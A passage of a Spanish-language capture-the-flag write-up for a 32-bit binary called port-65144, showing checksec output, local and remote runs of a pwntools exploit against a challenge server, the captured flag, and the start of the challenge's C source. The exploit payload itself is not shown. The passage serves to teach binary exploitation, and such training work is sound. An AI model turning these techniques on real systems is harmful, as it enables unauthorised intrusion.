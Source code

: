 La salida:

```
reisraff@3dbbde46a935:~/workdir/challs/port-65144$ python3 exploit.py
[*] '/home/reisraff/workdir/challs/port-65144/port-65144'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[+] Starting local process '/home/reisraff/workdir/challs/port-65144/port-65144': pid 2370
=========================
what the process returned
[*] Process '/home/reisraff/workdir/challs/port-65144/port-65144' stopped with exit code 0 (pid 2370)
Enter your buffer: gotcha func1
gotcha func2
FLAG TEST
```

Ahora tenemos que ejecutarlo de forma remota, ya que el nombre del binario es port-65144, probemos este puerto:

```python
# ...
p = pwn.remote('173.230.139.237', '65144')
# ...
```

Salida:

```
reisraff@3dbbde46a935:~/workdir/challs/port-65144$ python3 exploit.py
[*] '/home/reisraff/workdir/challs/port-65144/port-65144'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[+] Starting local process '/home/reisraff/workdir/challs/port-65144/port-65144': pid 2375
[+] Opening connection to 173.230.139.237 on port 65144: Done
=========================
what the process returned
Enter your buffer: gotcha func1
gotcha func2
reisraff{D47a_3xecu710n_Pr3ven71on_owned}

```

El código fuente de este desafío es:

```c
#include <stdio.h>
#include <stdlib.h>
#include <stdbool.h>
#include <fcntl.h>
#include <sys/mman.h>

bool flag1 = false;
bool flag2 = false;

void func1(int num1, int num2) {
    if (156 == num1 && 300 == num2) {
        flag1 = true;
        puts("gotcha func1");
    }
}

```